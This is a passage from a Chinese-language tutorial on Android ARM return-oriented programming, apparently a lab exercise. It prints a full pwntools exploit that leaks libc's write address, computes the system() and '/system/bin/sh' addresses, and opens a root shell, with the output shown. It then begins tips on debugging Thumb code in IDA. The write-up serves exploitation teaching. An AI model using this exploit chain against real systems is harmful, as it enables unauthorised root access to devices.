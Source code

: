 ``` python
r0 = 1
r1 = 0x0000AFE8
r2 = 4
r4 = 0
r5 = 0
r6 = 0
write_addr_plt = 0x000083C8

payload =  '\x00'*132 + p32(gadget1) + '\x00'*0xc + p32(r0) + '\x00'*0x4 + p32(gadget2) + p32(r1) + p32(r2) + p32(r4) + p32(r5) + p32(r6) + p32(write_addr_plt) + '\x00' * 0x84 + p32(ret_to_vul)

p.send(payload)

write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

#.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
#.text:000253A4                 EXPORT system
#.text:00020280                 EXPORT write

r0 = write_addr + (0x0003F9B4 - 0x00020280)
system_addr = write_addr + (0x000253A4 - 0x00020280) + 1

print 'r0=' + hex(r0)
print 'system_addr=' + hex(system_addr)

payload2 =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(system_addr)

p.send(payload2)

p.interactive()
```
执行exp的结果如下：  
```
$ python level9.py 
[+] Opening connection to 30.10.20.253 on port 10001: Done
write_addr=0xb6f27280
r0=0xb6f469b4
system_addr=0xb6f2c3a5
[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0
```

## 0x05 Android ROP调试技巧

因为gdb对thumb指令的解析并不好，所以我还是推荐用ida来进行调试。如果你还不会用ida，可以先看一下我之前写的关于ida调试的文章：  

安卓动态调试七种武器之孔雀翎– Ida pro  
除此之外，还有个很重要的技巧就是如何让ida正确的解析指令。ida在很多时候并不知道需要解析的指令是thumb还是arm，有时候甚至都不知道是啥内容。  

比如图中是libc.so中system的代码：    
